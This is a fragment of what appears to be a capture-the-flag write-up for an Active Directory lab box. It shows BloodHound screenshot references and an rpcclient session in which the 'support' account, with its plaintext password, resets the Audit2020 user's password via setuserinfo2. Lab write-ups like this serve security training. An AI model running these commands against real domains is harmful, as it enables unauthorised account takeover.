 ![bloodhound](images/bloodhound_support_01.png)
![bloodhound](images/bloodhound_support_02.png)

We can perform this opearion using RPC.

```bash
$ rpcclient dc01.BLACKFIELD.local -U support 
Password for [WORKGROUP\support]:#00^BlackKnight

rpcclient $> setuserinfo2 Audit2020 23 'P@ssw0rd!'
```
